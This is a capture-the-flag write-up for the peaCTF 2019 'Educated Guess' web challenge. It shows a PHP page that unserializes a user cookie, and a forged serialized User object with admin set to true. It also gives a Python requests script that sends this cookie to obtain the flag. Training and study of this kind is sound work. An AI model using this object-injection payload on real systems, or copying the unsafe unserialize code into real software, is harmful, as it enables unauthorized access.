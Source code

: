 The web exploitation challenge named "Educated Guess" had the following description:

> There is a secured system running at http://shell1.2019.peactf.com:59525/query.php. You have obtained the source code.

The source is:

```php
<!doctype html>
<html>
<head>
    <title>Secured System</title>
</head>
<body>
<?php

// https://www.php-fig.org/psr/psr-4/

function autoload($class)
{
    include $class . '.class.php';
}

spl_autoload_register('autoload');

if (!empty($_COOKIE['user'])) {
    $user = unserialize($_COOKIE['user']);

    if ($user->is_admin()) {
        echo file_get_contents('../flag');
    } else {
        http_response_code(403);
        echo "Permission Denied";
    }
} else {
    echo "Not logged in.";
}
?>
</body>
</html>
```

Here we have an autoload of the php classes but we don't know which ones, then we have a check for existance of the **user** cookie, if it exists the code unserialize it and check the **is_admin()** method on it.

Whenever we see an unserialization in php the first thing to try is object injection, but this technique allows us just to rewrite the variables, not the methods of a class. The name of the challenge and the hint
> Good programmers follow naming conventions.

suggest to guess something and to work with programming conventions. The first thing to discover is the name of the class used to create the user token, this can be guessed starting from the autoload function **$class . '.class.php'** and pretending that the class is called **User**, this hypothesis can be verified browsing http://shell1.2019.peactf.com:59525/User.class.php which will result in a blank page instead of the **Not found** page, so now we are sure about the name of the class, move on.

Now we need to guess what the method **is_admin** does, following OOP conventions we use **is** prefix whenever we want to create a getter method for a boolean attribute and this prefix is followed with the full name of the attribute, if we are following the full OOP convention then we need to set the attribute as private. The PHP class resulting from these guesssing and research is the following:

```php
class User{
    private $admin = true;
}
```

Then of course we need to instantiate an object of this class and serialize it.

```php
$user = new User();
echo urlencode(serialize($user));
```

The resulting string is:
> O%3A4%3A%22User%22%3A1%3A%7Bs%3A11%3A%22%00User%00admin%22%3Bb%3A1%3B%7D

Now we only need to send the string as a cookie to the challenge page. I'll use python requests library.
```python
import requests

r = requests.get('http://shell1.2019.peactf.com:59525/query.php', cookies = {
    'user' : 'O%3A4%3A%22User%22%3A1%3A%7Bs%3A11%3A%22%00User%00admin%22%3Bb%3A1%3B%7D'
})

print(r.text)
```

Running the script we will have:

```html
<!doctype html>
<html>
<head>
    <title>Secured System</title>
</head>
<body>
flag{peactf_follow_conventions_52344aae6e9a73578f6425f93aaae681}</body>
</html>
```
